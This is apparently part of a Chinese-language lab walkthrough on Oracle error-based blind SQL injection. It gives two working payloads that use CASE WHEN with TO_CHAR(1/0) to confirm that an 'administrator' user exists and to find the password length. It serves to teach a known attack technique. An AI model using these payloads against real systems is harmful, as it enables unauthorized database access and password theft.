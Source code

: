 ```
1. 真 from 真 ==>  真
2. 真 from 假 ==>  真
3. 假 from 真 ==>  假
4. 假 from 假 ==>  真
```

测试administrator用户是否存在，如果存在，from后面语句为真，因为to_char导致错误为假，返回500；如果不存在，from后面语句为假，查询结果为空，返回200。

`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

可以看到，服务端返回500错误，说明from后面语句为真，即存在administrator用户；

![image-20240910120400270](./imgs/image-20240910120400270.png)![image-20240910120400328](./imgs/image-20240910120400328.png)

接下来确定密码长度，如果密码长度大于1，执行to_char(1/0)，返回错误，根据之前的方法确定密码长度20位：

`'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

![image-20240910120950488](./imgs/image-20240910120950488.png)
